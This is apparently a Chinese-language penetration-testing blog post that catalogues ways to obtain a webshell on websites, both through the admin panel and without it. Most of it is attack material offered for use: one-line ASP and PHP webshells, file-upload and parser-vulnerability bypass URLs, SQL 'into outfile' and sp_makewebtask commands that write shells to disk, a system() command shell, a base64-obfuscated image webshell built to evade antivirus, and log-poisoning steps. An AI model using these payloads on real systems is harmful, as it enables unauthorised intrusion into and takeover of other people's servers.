






干货 | 渗透之网站Getshell最全总结
Getshell分为进管理员后台Getshell和不进后台Getshell，本文主要总结常见进后台Getshell和部分。
进后台Getshell
管理员后台直接Getshell
管理员后台直接上传Getshell，有时候带密码的Webshell连接时容易被waf拦截，可以上传不加密的Webshell如有权限限制可以尝试管理后台自带的修改文件名功能在文件名前加../来穿越目录，如上传的文件为a.php，将a.php修改为../a.php。
后台数据库备份Getshell
后台数据库备份getshell，上传图片马并获取图片马路径，通过数据库备份修改后缀名，如有后缀名无法修改或路径无法修改限制可修改前端代码绕过，当所备份的数据库来源无法修改时，我们可以通过首先将一句话木马写入数据库，比如通过新建管理员用户，将用户名用一句话木马代替（用户名通常有长度限制，在前端修改maxlength即可），<%eval request ("pass")%> 然后再通过备份数据库后访问此界面Getshell。
各类上传Getshell
https://choge.top/2020/02/29/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E9%AB%98%E7%BA%A7%E5%88%A9%E7%94%A8/
修改网站上传类型Getshell
修改网站上传类型，后台设置中添加aasps|asp|php|jsp|aspx|asa|cer，保存后上传aasps文件，上传后为asp文件可以解析Getshll
上传其他脚本类型Getshell
一台服务器有多个站，如a网站为asp脚本，b网站为php脚本，而a中限制了上传文件类型为asp的文件，此时可以上传php的脚本，来拿shell；也可以尝试脚本文件后缀名改为asa或者在后面直接加个.如xx.asp.来突破文件类型限制进行上传来Getshell
解析漏洞Getshell
IIS6.0解析漏洞
http://www.xxx.com/xx.asp/xx.jpg
http://www.xxx.com/xx.asp/xx.txt
http://www.xxx.com/xx.asp/xx.asp;jpg
IIS7.0/7.5、Nginx<8.0解析漏洞
http://www.xxx.com/xx.jpg/.php
Nginx<8.03空字节代码执行漏洞
版本范围：Nginx0.5.,0.6., 0.7 <= 0.7.65, 0.8 <= 0.8.37
http://www.xxx.com/xx.jpg%00.php
Apache解析漏洞
http://www.xxx.com/xx.php.owf.rar逆向解析，直到能解析出php为止
CVE-2013-4547 Nginx解析漏洞
http://www.xxx.com/xx.jpg（非编码空格）\0.php
编辑器漏洞Getshell
传送门：
https://navisec.it/%e7%bc%96%e8%be%91%e5%99%a8%e6%bc%8f%e6%b4%9e%e6%89%8b%e5%86%8c/
网站配置插马Getshell
进入后台后，网站配置插马getshell，可以找到源码本地搭建，插入时注意与源码闭合，如果插入出错可能导致网站报废。如asp中单引号表示单行注释作用"%><%eval request("v01cano")%><%'
编辑器模版Getshell
通过网站的模版编写一句话，然后生成脚本文件getshell 通过将木马添加到压缩文件，把名字改为网站的模版类型，上传到服务器，getshell）（新建或修改目录名为xx.asp/ 此目录下的jsp，html会以asp执行，配置iis6.有0解析漏洞
修改脚本文件Getshell
修改后台脚本文件插入一句话直接Getshell，尽量插在头和尾。
###上传插件、更新页面Getshell
wordpress，dz等，如编辑wordpress404页面插入一句话，可以先下载对应版本找到404路径，部分OA上传插件Getshell， jboss，tomcat上传war包getshell等
执行sql语句写入Webshell
首先执行错误的sql语句，使其暴露出网站的根目录，以ecshop为例，进入后台执行sql查询select "<?php phpinfo();?>" into outfile "C:\\vulcms\\ecshopv3.6\\ecshop\\v01cano.php";关于此语句说明，在windows中有时候需要使用斜杠/有时候需要使用双反斜杠\末尾有时候需要分号，有时候也不需要分号。也可以先将一句话通过ecshop的新建管理员写入到user表中，然后通过数据库备份配合解析漏洞Getshell。
命令执行Getshell
Windows
echo ^<^?php @eval($_POST[C0cho]);?^>^ >c:\1.phpLinux
echo -e "<?php @assert(\$_POST[C0cho])?>" > 1.phpLinux需要在$前加\进行防转义，Windows需要在<前加^防转义，Windows和Linux中的 “可以使用’或不使用进行尝试
文件包含Getshell
文件包含有时可绕过waf
asp包含
include file="123.jpg"调用的文件必须和被调用的文件在同一目录，否则找不到，如果不在同一目录，用下面语句也使用如下代码include virtual="文件所在目录/123.jpg"
php包含
1 | <?php |
使用php://input
使用burpsuite截取数据包，并修改内容转发(还可以使用hackbar工具中的post data中输入<?php fputs(fopen("shell1.php","w"),'1111<?php @assert($_POST[xss])?>2222')?>等一句话木马)
截取get请求

将一句话木马

浏览器访问查看是否成功

数据库命令执行Getshell
Access导出
Access可导出xxx等文件需要配合解析漏洞
1 | create table cmd (a varchar(50)); |
菜刀直连https://www.webshell.cc/1.asa;x.xls
Sqlserver导出
1 | exec sp_makewebtask 'C:\test1.php','select "<%eval request("pass")%>" '-- |
Mysql导出
以phpMyAdmin为例
方式一
1 | create TABLE xiaoma (xiaoma1 text NOT NULL); |
方式二
1 | select "<?php eval($_POST[v01cano]);?>" into outfile 'D:/phpstudy/www/a.php' |
方式三
当数据库路径未知时Getshell
1 | //创建表a,并且将httpd.conf写入到表a中 |
然后执行导出操作，将该文件下载，使用notepad++打开，最后搜索documentroot，即可找到网站的根目录：

文件可能存在的一些路径：
1 | # Windows |
方式四通过load_file函数直接加载该文件内容
1 | select load_file('C:/phpStudy/Apache/conf/httpd.conf'); |
同时需要做如下配置


方式五
general_log_file方法获取Webshell
show global variables like 'secure%'显示secure_file_priv的值为NULL，不能利用写into outfile写木马getshell。
1 | show global variables like "%genera%"; #查看genera文件配置情况 |
方式六
可执行命令方式
select '<?php echo \'<pre>\'; system($_GET[\'cmd\']); echo \'</pre>\'; ?>' INTO OUTFILE 'd:/www/shell.php'
使用方法
1 | www.xxx.com/shell.php?cmd=ipconfig #cmd=后面加命令 |
方式七
过杀毒软件方式
上传图片马c.jpg，图片马内容如下：
<?php$a = 'PD9waHAgQGV2YWwoJF9QT1NUWydjJ10pO2RtdSgpOz8+'; error_reporting(0); @set_time_limit(0); eval("?>".base64_decode($a));?>
导出Webshell
select '<?php include 'c.jpg'?>' INTO OUTFILE 'D:/work/www/shell.php'
方式八
直接导出加密Webshell
select unhex('加密代码') into dumpfile 'D:/www/web/shell.php'
不进后台Getshell
0day Getshell
各类OA，coremail，cms，php框架，数据库，java框架等0day，1day，nday Getshell
写入日志Getshell
获取日志路径，在访问过程中在url或者其他位置写入<?php eval($_POST[c]);?>等信息，使其日志记录此代码，然后访问日志路径，菜刀连接Getshell，如phpinfo();中能查看到error.log和access.log的路径。
IIS/Tomcat写权限Getshell
IIS6.0，put协议上传手工或工具，批量扫描工具：iis put scaner，写权限利用：桂林老兵
Tomcat put上传 CVE-2017-12615 工具传送门：https://link.zhihu.com/?target=https%3A//github.com/iBearcat/CVE-2017-12615
上传漏洞Getshell
https://choge.top/2020/02/24/upload-labs%E8%AE%B0%E5%BD%95/
上传会员头像Getshell
将Webshell放入文件夹，然后压缩成zip文件。上传正常头像抓包将图片文件内容删除，burp右键选择文件黏贴功能，将zip包内容复制到burp中的图片内容，放行后菜刀连接图片上传路径下的文件夹（zip压缩包名）下的Webshell
注入漏洞Getshell
https://choge.top/2020/03/19/MsSQL%E6%B3%A8%E5%85%A5/
远程命令执行
参考本博Linux/Windows反弹shell，脚本语言、powershell反弹shell，Kali/Cobalt Strike等各种上线方法
其他漏洞Getshell
XXE，SSRF，反序列化，strust2等一种或多种组合利用Getshell
参考
https://www.jianshu.com/p/a1fa305a6b8f
https://blog.csdn.net/qq1124794084/article/details/89001203

推荐阅读
点赞，转发，在看
文章作者：C0cho
作者博客：choge.top